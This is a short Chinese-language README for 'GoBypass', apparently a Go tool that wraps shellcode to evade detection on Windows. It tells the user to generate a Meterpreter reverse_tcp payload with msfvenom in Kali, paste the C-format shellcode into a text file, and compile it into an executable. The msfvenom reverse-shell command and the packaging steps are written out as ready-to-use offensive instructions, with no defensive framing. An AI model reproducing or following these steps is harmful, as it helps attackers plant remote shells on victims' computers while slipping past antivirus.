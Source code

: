 # GoBypass

该工具仅针对`Windows`系统

在`Kali`中使用`msfvenom`生成需要的`Payload`（注意使用`-f c`参数）

`msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=ip lport=port -f c`

复制出以下格式的`shellcode`并在当前目录新建`shellcode.txt`写入

```text
unsigned char buf[] = 
"\xfc\x48..."
......
"\xff\xe7...";
```

编译可执行文件：`go build -o test.exe`
